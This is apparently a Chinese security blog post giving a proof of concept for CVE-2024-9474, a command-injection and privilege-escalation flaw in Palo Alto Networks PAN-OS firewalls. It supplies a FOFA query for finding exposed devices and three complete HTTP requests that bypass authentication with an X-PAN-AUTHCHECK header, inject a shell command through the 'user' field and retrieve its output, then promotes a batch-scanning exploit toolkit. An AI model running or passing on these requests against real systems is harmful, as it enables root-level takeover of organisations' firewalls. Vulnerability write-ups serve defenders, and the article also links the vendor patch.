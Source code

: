 #  Palo Alto Networks PAN-OS存在远程命令执行漏洞CVE-2024-9474 附POC   
2024-12-10更新  南风漏洞复现文库   2024-12-10 15:50  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Palo Alto Networks PAN-OS简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Palo Alto Networks PAN-OS  
## 2.漏洞描述  
  
Palo Alto Networks PAN-OS是美国Palo Alto Networks公司的一套为其防火墙设备开发的操作系统。Palo Alto Networks PAN-OS存在安全漏洞，该漏洞源于存在权限提升漏洞，允许有权访问管理Web界面的PAN-OS管理员以root权限在防火墙上执行操作。  
  
CVE编号:CVE-2024-9474  
  
CNNVD编号:CNNVD-202411-2345  
  
CNVD编号:  
## 3.影响版本  
  
Palo Alto Networks PAN-OS  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvV6szpWnzrcMzwZKEqicjYbNxfiasxjUIsGW7hg8PMQ4g5BPz5nsaBnn3w/640?wx_fmt=png&from=appmsg "null")  
  
Palo Alto Networks PAN-OS存在远程命令执行漏洞  
## 4.fofa查询语句  
  
icon_hash="873381299"  
## 5.漏洞复现  
  
漏洞数据包，数据包会返回cookie值  
```
POST /php/utils/createRemoteAppwebSession.php/watchTowr.js.map HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent:Mozilla/5.0(Macintosh;IntelMac OS X 10_15_7)AppleWebKit/537.36(KHTML, like Gecko)Chrome/108.0.0.0Safari/537.36
X-PAN-AUTHCHECK: off
Host: xx.xx.xx.xx
Content-Length:98
Connection: close

user=`echo $(id) > /var/appweb/htdocs/unauth/gOFQTs.php`&userRole=superuser&remoteHost=&vsys=vsys1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvVPHq0MlQ1DZknQqQCSPnCIiaKghHUsUJujKTtGstMBHXhkWUmyZGV9Bw/640?wx_fmt=jpeg&from=appmsg "null")  
```
GET /index.php/.js.map HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Cookie: PHPSESSID=第一步获取的cookie
X-PAN-AUTHCHECK: off
Host: xx.xx.xx.xx
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvV0wNCmzIibkwDDYR1sreBxicVFhtCYSL54XAubY9WY0Iv1CjgkEE4ZicXQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
获取执行结果  
```
GET /unauth/gOFQTs.php HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Cookie: PHPSESSID=第一步获取的cookie
X-PAN-AUTHCHECK: off
Host: xx.xx.xx.xx
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvVG72kzoVsKWBicHxKL6e8bTibicZpOr4n90SHYOzkXQArudOXibVRszxicmw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvVmZ3UOrhlfFAU6nWpP0XE3m1dicpKDeeGbRErTjCdaoN6Seon8yq2ZNg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvVzKtP1WJYYFcLiaoibWlPicdzibnxBzdKtUQpibDyERHvo0atROSpRj5iaKwA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvV3icayQ7x4Qfj2Huccn6LJym0fgSd6PKZtdPlGOmoibP2UGPOgFo85TcQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvVrjFel9ibNWQj1K3vIKtibRERXAB4GWWichqxt9eapyjqRfG7V4kP2uHuw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3awmMZXPhkeILeMtwZ9CmvVZXC66oglMOs8SiaYGZbAe9N2X6fUE0UWZTE41rLBI18u6EibQPOT8msA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
官方补丁 https://security.paloaltonetworks.com/CVE-2024-9474  
## 8.往期回顾  
  
  
[Zabbix api_jsonrpc.php接口存在SQL注入漏洞CVE-2024-42327 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487930&idx=1&sn=589b3837a2dc8ff72e861b99f6947f5d&scene=21#wechat_redirect)  
  
  
[九思OA软件jsoa/dl.jsp存在任意文件读取漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487916&idx=1&sn=636bdfae861e5c01986212c20de3bdd8&scene=21#wechat_redirect)  
  
  
